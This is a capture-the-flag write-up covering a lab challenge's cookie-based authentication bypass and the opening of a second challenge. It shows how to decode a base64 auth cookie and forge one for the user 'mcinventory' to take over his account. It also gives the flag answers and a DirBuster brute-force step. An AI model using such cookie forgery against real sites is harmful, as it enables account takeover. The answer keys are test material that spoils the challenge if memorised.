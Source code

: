 # Day1 Inventory Management 
```
Elves needed a way to submit their inventory - have a web page where they submit their requests and the elf mcinventory can look at what others have submitted to approve their requests. It’s a busy time for mcinventory as elves are starting to put in their orders. mcinventory rushes into McElferson’s office.


I don’t know what to do. We need to get inventory going. Elves can log on but I can’t actually authorise people’s requests! How will the rest start manufacturing what they want.  

McElferson calls you to take a look at the website to see if there’s anything you can do to help. Deploy the machine and access the website at http://<your_machines_ip>:3000 - it can take up to 3 minutes for your machine to boot!
```
## 1. What is the name of the cookie used for authentication?
   - creted id h4ck pass: password email: lovyou@test.com
   - cookie: authid: aDRja3Y0ZXI5bGwxIXNz
## 2. If you decode the cookie, what is the value of the fixed part of the cookie?
the cookie is encoded with base64,to decode it run:
```console
kali@kali:~$ echo "aDRja3Y0ZXI5bGwxIXNz" | base64 -d
h4ckv4er9ll1!ss
```
flag: ```v4er9ll1!ss```
## 3. After accessing his account, what did the user mcinventory request?
we know that the username that we try to gain access = mcinventory so we need to add the prefix part -> ```mcinventoryv4er9ll1!ss```
the cookie is encoded with base64, to encode it run:
```console
kali@kali:~$ echo "mcinventoryv4er9ll1!ss" |base64 
bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==
```
now we need to change = to %3D which give us -> ```bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw%3D%3D```
flag:```firewall```

# Day 2: Arctic Forum 
```
A big part of working at the best festival company is the social live! The elves have always loved interacting with everyone. Unfortunately, the christmas monster took down their main form of communication - the arctic forum! 

Elf McForum has been sobbing away McElferson's office. How could the monster take down the forum! In an attempt to make McElferson happy, she sends you to McForum's office to help. 

P.S. Challenge may a take up to 5 minutes to boot up and configure!

Access the page at http://[your-ip-here]:3000
```
## What is the path of the hidden page?
use DirBuster to bruteforce directory
```console
$dirbuster& # use wordlist inside /usr/share/wordlists/
```